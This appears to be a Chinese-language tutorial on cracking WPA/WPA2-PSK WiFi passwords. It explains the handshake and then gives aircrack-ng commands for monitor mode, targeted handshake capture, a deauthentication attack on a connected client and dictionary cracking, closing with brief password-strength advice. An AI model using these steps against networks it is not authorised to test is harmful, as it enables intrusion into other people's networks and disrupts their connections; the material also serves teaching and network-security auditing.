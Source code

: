 ## WiFi密码破解与防范

此教程为wifi无线密码破解攻略，建议以探讨学术和热爱网络技术为学习目标。 

## 1 WIFI破解原理

本章节主要介绍WIFI认证方式和认证具体过程，还有如何利用WIFI的认证再破解的基本原理。

### 1.1 wifi认证方式

1、不启用安全

2、WE

3、WPA/WPA2-PSK

4、WPA/WPA2 802.1X （radius认证）

一般我们设置主流的都是第三种。

具体在路由器的配置界面一般如下图所示：

![img](http://image.3001.net/images/20150204/14230352482243.png)

### 1.2 WPA-PSK的认证过程：

![img](http://image.3001.net/images/20150204/14230353336924.png)

> 1、无线AP定期发送beacon数据包，使无线终端更新自己的无线网络列表。
>
> 2、无线终端在每个信道（1-13）广播ProbeRequest（非隐藏类型的WiFi含ESSID，隐藏类型的WiFi不含ESSID）
>
> 3、每个信道的AP回应，ProbeResponse，包含ESSID，及RSN信息
>
> 4、无线终端给目标AP发送AUTH包。AUTH认证类型有两种，0为开放式、1为共享式（WPA/WPA2必须是开放式）
>
> 5、AP回应网卡AUTH包
>
> 6、无线终端给AP发送关联请求包associationrequest数据包 7、AP给无线终端发送关联响应包associationresponse数据包
>
> 8、EAPOL四次握手进行认证（握手包是破解的关键）
>
> 9、完成认证可以上网。

### 1.3 WPA-PSK认证四次握手认证的过程

![img](http://image.3001.net/images/20150204/1423035431460.png)

### 1.4 WPA-PSK破解原理

用我们字典中的PSK+ssid先生成PMK（此步最耗时，是目前破解的瓶颈所在），然后结合握手包中的客户端MAC，AP的BSSID，A-NONCE，S-NONCE计算PTK，再加上原始的报文数据算出MIC并与AP发送的MIC比较，如果一致，那么该PSK就是密钥。

如图所示：

![img](http://image.3001.net/images/20150204/142303547147.png)

## 2 WIFI破解过程

### 2.1 破解wifi实战

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop
```

```
airmon-ng check kill
```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig
```

或者

```
iwconfig
```

找到是否有wlan0无线网卡的，如果没有无线网卡请插入usb无线网卡。 如果是插入usb网卡请

```
ifconfig wlan0 up
```

加载无线网卡

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0
```

![img](http://image.3001.net/images/20150204/14230355012283.png)

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng mon0
```

查看周边路由AP的信息。

个人经验一般信号强度大于-70的可以进行破解，大于-60就最好了，小于-70的不稳定，信号比较弱。（信号强度的绝对值越小表示信号越强）

![img](http://image.3001.net/images/20150204/14230355329489.png!small) 

![img](http://image.3001.net/images/20150204/14230355587380.png!small)

![img](http://image.3001.net/images/20150204/14230356574818.png!small)

**（5）. 选择要破解的WiFi，有针对性的进行抓握手包**

```
airodump-ng --ignore-negative-one -w  /tmp/test.cap-c 11 --bssid 40:16:9F:76:E7:DE mon0
```

参数说明：-w 保存数据包的文件名 –c 信道 –bssid ap的mac地址 (注意test.cap会被重命名)，也可以用其他工具抓包比如：wireshark、tcpdump，抓到握手包会有提示。

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

为了顺利抓到握手包，我们需要使用DEAUTH攻击使已经连接的客户端断开并重新连接，以产生握手包。（注意：抓握手包破解必须有合法的客户端才行。）

攻击命令如下

```
aireplay-ng -0 3 -a B8:A3:86:63:B4:06 -c 00:18:1a:10:da:c9 -x 200 mon0
```

参数说明：-0 Deautenticate 冲突模式 3 发包次数 -x 发包速度

![img](http://images.51cto.com/files/uploadimg/20110526/15005025.jpg)

如果攻击成功,airodump-ng捕获`handshake` ,此时可以ctrl+c终止airodump-ng抓包。

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng-w pass-haoyong.txt test-03.cap
```

参数解释：-w 字典路径

![img](http://image.3001.net/images/20150204/14230358365729.png!small)

如果字典中有对方的密码，那么经过一段时间就会破解成功，最终会出现 **FOUND KEY!**字样.

![img](http://images.51cto.com/files/uploadimg/20110526/15005029.jpg)

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```

### 2.2 有关WIFI安全建议

（1） 路由密码不要设置WEP方式加密的，因为WPA2-PSK的加密方式是不可逆的，但是wep确实可逆的，不论你设置的密码多么复杂，都会被秒破。

（2） 加密方式选择WPA2-PSK，密码不要设置常用面比如简单的123456aa这种。一般网上流传的密码字典会包括这种密码，所以很多常用字典可以轻易破解

（3）密码难度稍微复杂一些，长度不要局限8位，即可。

视频：http://pan.baidu.com/s/1hrY0qR6
资料链接：http://pan.baidu.com/s/1cecjZC 密码：rn7i
直播视频链接：
http://v.youku.com/v_show/id_XMTY3OTgyNjY2NA==.html 